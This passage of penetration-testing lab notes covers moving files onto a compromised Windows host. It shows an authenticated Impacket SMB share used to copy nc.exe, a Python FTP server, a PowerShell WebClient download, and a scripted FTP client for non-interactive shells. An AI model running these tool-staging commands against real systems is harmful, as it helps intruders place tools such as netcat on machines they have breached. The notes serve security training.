 New versions of Windows block unauthenticated guest access, as we can see in the following command:

```cmd-session
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```

we can set a username and password using our Impacket SMB server:

```shell-session
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

and mount the SMB server on our windows target machine:
```cmd-session
C:\htb> net use n: \\192.168.220.133\share /user:test test
C:\htb> copy n:\nc.exe
```

<mark class="hltr-red">Note:</mark> You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.

## <mark class="hltr-cyan">FTP Downloads</mark>

Creating the ftp server
```shell-session
sudo python3 -m pyftpdlib --port 21
```

Now we can download the remote file on the windows target
```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```

When we get a shell on a remote machine, we may not have an interactive shell. If that's the case, we can create an FTP command file to download a file. First, we need to create a file containing the commands we want to execute and then use the FTP client to use that file to download that file.

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo GET file.txt >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128
Log in with USER and PASS first.
ftp> USER anonymous

ftp> GET file.txt
ftp> bye

C:\htb>more file.txt
This is a test file
```
